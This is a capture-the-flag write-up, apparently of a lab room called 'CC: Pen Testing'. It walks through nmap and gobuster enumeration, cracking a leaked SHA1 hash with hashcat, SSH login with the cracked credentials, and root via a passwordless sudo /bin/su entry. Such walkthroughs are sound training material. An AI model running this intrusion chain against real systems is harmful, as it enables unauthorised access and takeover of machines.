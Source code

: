 ```yaml
---
tags: [Rooms]
title: 'CC: Pen Testing'
created: '2020-05-16T22:27:38.408Z'
modified: '2020-05-16T22:38:59.006Z'
---
```


# CC: Pen Testing

Nmap scan of the machine:

```
nmap -sV -sC -p- 10.10.91.184 -T4 -v
```

We discover that port 80 is open and has a default Apache web page.

Use gobuster to enumerate files/folders:

```
gobuster dir -u http://10.10.91.184 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 50 -e -l
```

We discover a `/secret` folder in the web application. Using the browser we see a blank page when accessing it.

Use gobuster to enumerate further files/folders on this `/secret` folder:

```
gobuster dir -u http://10.10.91.184/secret/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 50 -e -l -x txt
```

We discover a `secret.txt` file inside the folder. This file contains a username and a SHA1 hash.

`nyan:046385855FC9580393853D8E81F240B66FE9A7B8`

Using hashcat we can crack the hash:

```
hashcat -m 100 -a 3 hash.txt /usr/share/wordlists/rockyou.txt --force
```

The resulting password is `nyan`.

According to the nmap scan we performed before, port 22 is open.
We can use SSH with the credentials we found to access the target machine:

```
ssh nyan@10.10.91.184
```

We have a shell with the user nyan.
Inside the users' home directory, we can find the **user.txt**

We look at what sudo permissions does to user have:

```
sudo -l
```

The user nyan has permission to execute /bin/su as root without being asked for a password.

```
User nyan may run the following commands on ubuntu:
    (root) NOPASSWD: /bin/su
```

We proceed to execute the following command to obtain escalate our privileges:

```
sudo /bin/su
```

The **root.txt** file is in /root/root.txt
